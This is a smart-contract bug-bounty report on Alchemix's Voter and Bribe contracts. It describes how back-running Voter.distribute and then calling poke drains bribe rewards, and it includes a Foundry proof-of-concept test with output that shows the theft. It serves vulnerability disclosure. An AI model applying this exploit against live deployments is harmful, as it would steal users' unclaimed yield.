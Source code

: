 
# malicious user can back-run `Voter.distribute` to steal reards

Submitted on Wed May 15 2024 13:58:42 GMT-0400 (Atlantic Standard Time) by @jasonxiale for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31249

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/Voter.sol

Impacts:
- Theft of unclaimed yield

## Description
## Brief/Intro
In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.


## Vulnerability Details
During the `Voter.distribute` function, [Voter._distribute](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L359C14-L379) is called, and at the end  of `Voter._distribute`, `IBribe.resetVoting` is called at [https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L377]
[IBribe.resetVoting](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L332-L335) is defined as:
```solidity
345     /// @inheritdoc IBribe
346     function resetVoting() external {
347         require(msg.sender == voter);
348         totalVoting = 0;
349     }
```

__So it means that after calling `Voter.distribute`, `Bribe.totalVoting` will be set to 0.__

Then in `Bribe.earned`, `Bribe.totalVoting` is used in [Bribe.sol#L257-L261](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L255-L261) and [Bribe.sol#L268-L277](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Bribe.sol#L268-L277).
One thing to note is that:
```solidity
270         // Prevent divide by zero
271         if (_priorSupply == 0) {
272             _priorSupply = 1;
273         }
```
So it means that if **_priorSupply** will be set to **1** if it's 0.
And `reward` depends on `_priorSupply` as:
```solidity
reward += (cp.balanceOf * tokenRewardsPerEpoch[token][_lastEpochStart]) / _priorSupply;
```

To sum up:
1. During `Voter.distribute`, `Bribe.totalVoting` will be set to **0**
2. `Bribe.earned` depends of `Bribe.totalVoting` to calculate the amount of rewards. And if we can force `_priorSupply` to 1 while calculating the rewards, we will make more profilt. We can use `Voter.poke` to update the `checkpoint` after `Voter.distribute`.


## Impact Details
In current implementation, `Voter.distribute` is used to distribute ALCX among gauges, during the call there is an issue that a malicious user can back-run `Voter.distribute` to steal reards.


## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
put the follow code in `src/test/Voting.t.sol` and run 
```bash
FOUNDRY_PROFILE=default forge test --fork-url https://eth-mainnet.alchemyapi.io/v2/$API_KEY --fork-block-number 17133822 --mc VotingTest --mt testAliceEpochRewards -vv
[⠊] Compiling...
No files changed, compilation skipped

Ran 2 tests for src/test/Voting.t.sol:VotingTest
[PASS] testAliceEpochRewardsNoPoke() (gas: 6888013)
Logs:
  earned                    : 33333333333333333333333
  earned                    : 33333333333333333333333
  bal.balanceOf(Alice)      : 33333333333333333333333
  bal.balanceOf(Bob)        : 0

[PASS] testAliceEpochRewardsPoke() (gas: 6969463)
Logs:
  earned                    : 100000000000000000000000
  earned                    : 100000000000000000000000
  bal.balanceOf(Alice)      : 100000000000000000000000
  bal.balanceOf(Bob)        : 0

Suite result: ok. 2 passed; 0 failed; 0 skipped; finished in 86.68ms (116.98ms CPU time)
```
As we can from above, if Alice doesn't call `Voter.poke` after `Voter.distribute`, Alice will receive 33333333333333333333333 bal rewards.

And if Alice calls `Voter.poke` after `Voter.distribute`, Alice will receive 100000000000000000000000 bal rewards.

```solidity
    function testAliceEpochRewardsPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();
        hevm.prank(Alice);
        voter.poke(tokenId1);

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }

    function testAliceEpochRewardsNoPoke() public {
        uint256 period = minter.activePeriod();

        hevm.warp(period + nextEpoch);
        hevm.roll(block.number + 1);

        deal(address(alcx), address(voter), TOKEN_100K);

        hevm.prank(address(voter));
        sushiGauge.notifyRewardAmount(TOKEN_100K);

        address Alice = address(0x11001100);
        address Bob   = address(0x22002200);
        address Chris = address(0x33003300);
        // Create a veALCX token and vote to trigger voter rewards
        uint256 tokenId1 = createVeAlcx(Alice, TOKEN_1, MAXTIME, false);
        uint256 tokenId2 = createVeAlcx(Bob, TOKEN_1, MAXTIME, false);
        uint256 tokenId3 = createVeAlcx(Chris, TOKEN_1, MAXTIME, false);
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;
        address[] memory gauges = new address[](1);
        gauges[0] = address(sushiGauge);

        hevm.prank(Alice);
        voter.vote(tokenId1, pools, weights, 0);
        hevm.prank(Bob);
        voter.vote(tokenId2, pools, weights, 0);
        hevm.prank(Chris);
        voter.vote(tokenId3, pools, weights, 0);

        address bribeAddress = voter.bribes(address(sushiGauge));
        createThirdPartyBribe(bribeAddress, bal, TOKEN_100K);

        voter.distribute();

        hevm.warp(block.timestamp + nextEpoch);

        address[] memory bribes = new address[](1);
        bribes[0]  = bribeAddress;
        address[][] memory tokens = new address[][](1);
        tokens[0] = new address[](1);
        tokens[0][0] = bal;

        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId1));
        console2.log("earned                    :", IBribe(bribeAddress).earned(address(bal), tokenId2));
        hevm.prank(Alice);
        voter.claimBribes(bribes, tokens, tokenId1);
        console2.log("bal.balanceOf(Alice)      :", IERC20(bal).balanceOf(Alice));
        console2.log("bal.balanceOf(Bob)        :", IERC20(bal).balanceOf(Bob));
    }
```
